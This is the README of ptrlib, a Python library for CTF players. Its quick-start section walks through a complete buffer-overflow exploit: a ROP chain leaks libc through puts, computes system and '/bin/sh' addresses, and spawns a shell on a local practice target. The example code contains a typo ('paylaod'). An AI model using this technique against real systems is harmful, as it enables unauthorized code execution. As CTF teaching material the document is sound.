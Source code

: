 ptrlib
====

![Python Test (Windows)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Windows%29/badge.svg)
![Python Test (Ubuntu)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Ubuntu%29/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.8 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01", cwd="/home/ctf")
sock = Process(["./pwn01", "--debug"], env={"FLAG": "flag{dummy}"})
sock = Process("make menuconfig", shell=True)
sock = Socket("localhost", 1234)
sock = Socket("example.com", 443, ssl=True, sni="neko")
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

Since version 2.4.0, ptrlib supports loading debug symbol.
```python
libc = ELF("./libc.so.6")
print(libc.symbol("_IO_stdfile_1_lock"))
```

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadget("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadget("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")),
  addr_stage2,
  next(elf.gadget("leave\n ret")) # GCC-style
], map=p64)
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

Interaction with curses is supported since 2.1.0.
```
sock.recvscreen()
if sock.recvscreen(returns=list)[1][1] == '#':
  sock.sendctrl("up")
else:
  sock.sendctrl("esc")
```

## Install
Run `pip install --upgrade ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [jptomoya](https://github.com/jptomoya)
  - Added CI for Windows
  - Added SSL support
  - Refactored test cases
- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
  - Added debug-symbol parser
